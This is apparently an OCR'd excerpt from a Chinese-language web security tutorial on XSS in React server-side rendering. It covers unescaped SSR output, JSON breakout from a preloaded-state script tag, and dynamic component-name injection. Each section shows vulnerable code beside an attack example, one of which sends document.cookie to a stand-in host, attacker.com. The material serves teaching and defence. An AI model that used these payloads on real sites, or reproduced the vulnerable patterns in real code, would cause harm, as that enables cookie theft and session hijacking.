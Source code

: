 #### 服务端渲染 (SSR) XSS  
  
服务端拼接 HTML 时未转义用户数据：  

```
// 危险的服务端渲染
app.get('/profile', (req, res) => {
  const userData = JSON.parse(req.query.data);
  const html = ReactDOMServer.renderToString(
    <Profile user={userData} />
  );
  res.send(html);		// 直接嵌入，风险高！
});
```

  
攻击示例：  

```
/profile?data={&#34;bio&#34;:&#34;<script>malicious()</script>&#34;}
```

#### JSON注入攻击  

```
// 不安全的数据注入
<script>
  window.__PRELOADED_STATE__ = ${JSON.stringify(state)};
</script>
```

  
攻击示例：  

```
state = {
  user: {
    name: &#34;John&#34;,
    // 闭合 JSON 并注入脚本
    bio: &#34;</script><script>alert(1)</script><!--&#34;
  }
};
```

#### 动态组件名称注入  

```
const Component = components[componentName];
return <Component />;
```

  
攻击示例：  

```
// 恶意组件定义
const MaliciousComponent = () => (
  <img src=&#34;x&#34; onError={() => fetch('https://attacker.com?cookie='+document.cookie)} />
);


// 注入
componentName = &#34;MaliciousComponent&#34;;
```
